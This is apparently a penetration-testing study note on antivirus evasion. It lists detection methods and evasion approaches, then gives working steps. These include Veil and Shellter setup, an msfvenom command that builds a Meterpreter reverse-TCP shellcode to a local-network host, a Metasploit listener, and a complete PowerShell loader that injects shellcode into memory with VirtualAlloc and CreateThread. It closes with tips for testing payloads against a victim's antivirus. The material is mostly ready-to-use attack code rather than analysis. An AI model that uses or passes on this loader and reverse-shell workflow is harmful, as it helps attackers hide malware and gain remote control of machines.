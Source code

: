 # Antivirus Evasion

#### How Antivirus detect malicious code

* **signature-based detection** → to bypass we work to obfuscation of code
* **Heuristic-based detection** → depend on rules or analyze of sources code which search on specific bits
* **Behavioral-based detection** → run malware on sandbox and start to scan behavior
* **Machine Learning Detection →** uses algorithms trained on vast amounts of data to identify malware. The system learns to distinguish between legit and malicious files by collecting and analyzing additional metadata.

#### bypass Antivirus detection

* **on-disk evasion**
  * **packers** → compress or encrypt the malware payload. which work on first generation of antivirus
  * **obfuscator** →modify the malware’s code so that it appears harmless to signature-based detection tools. [https://obfuscator.io/](https://obfuscator.io/)
  * **crypters** → which encrypt source code
  * **software protectors** → close all reverses tools
* **im-memory evasion**
  * **Remote process memory injection** → we use API like `OpenProcessAPI`
  * **Reflective DLL injection**

***

#### Tools for AV Evasion

*   **Veil Framework**

    Framework which responsible on antivirus evasion

    ```bash
    git clone <https://github.com/Veil-Framework/Veil.git>
    cd Veil
    ./config/setup.sh --force --silent
    use Evasion
    # file .bat -> payload
    # .rc send to msfconsole
    msfconsole -r payloadname
    ```

    `netstat -antp` to show all process running in background
*   **Shellter Tool**

    is a **dynamic PE infector** that injects shellcode into Windows executables, bypassing EDR and AV detection. It works through **runtime evasion** to ensure payload stealth.

    ```bash
    sudo apt install wine -y
    wget <https://www.shellterproject.com/Downloads/Shellter.zip>
    unzip Shellter.zip
    cd Shellter
    wine shellter.exe
    ```

    **Steps to inject shellcode**

    1. Run `wine shellter.exe` on Kali.
    2. Choose **Auto Mode** and enable **Stealth Mode**
    3. Select the target **EXE file**
    4.  Generate a shellcode:

        ```bash
        msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f raw > shellcode.bin
        ```
    5. Inject shellcode into the EXE.
    6.  start Start **Metasploit listener**:

        ```bash
        msfconsole
        use exploit/multi/handler
        set payload windows/meterpreter/reverse_tcp
        set LHOST 192.168.1.100
        set LPORT 4444
        exploit

        ```

***

#### Techniques for AV Evasion

*   **Process Injection**

    The source code bellow is a PowerShell Cmdlet which defines several Windows API functions.

    These Win API Functions enable memory management allowing manipulate memory and create threads directly. Also, the variables names use to obfuscate the code.

    ```bash
    $code = '
    [DllImport("kernel32.dll")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

    [DllImport("kernel32.dll")]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

    [DllImport("msvcrt.dll")]
    public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

    $var2 = Add-Type -memberDefinition $code -Name "iWin32" -namespace Win32Functions -passthru;
    ```

    The source code below shows the usage of the Win API and injecting the shellcode in to the legitimate process memory space.

    ```bash
    [Byte[]];   
    [Byte[]] $var1 = **<shellcode>**

    $size = 0x1000;

    if ($var1.Length -gt 0x1000) {$size = $var1.Length};

    $x = $var2::VirtualAlloc(0,$size,0x3000,0x40);

    for ($i=0;$i -le ($var1.Length-1);$i++) {$var2::memset([IntPtr]($x.ToInt32()+$i), $var1[$i], 1)};

    $var2::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
    ```

***

we use [https://www.virustotal.com/gui/home/upload](https://www.virustotal.com/gui/home/upload) to test payload

> if one AV Detect this payload after period the all AV will detect this payload so the best solution you should know the AV for victim machine and create a virtual lab and start to test your payload in this lab
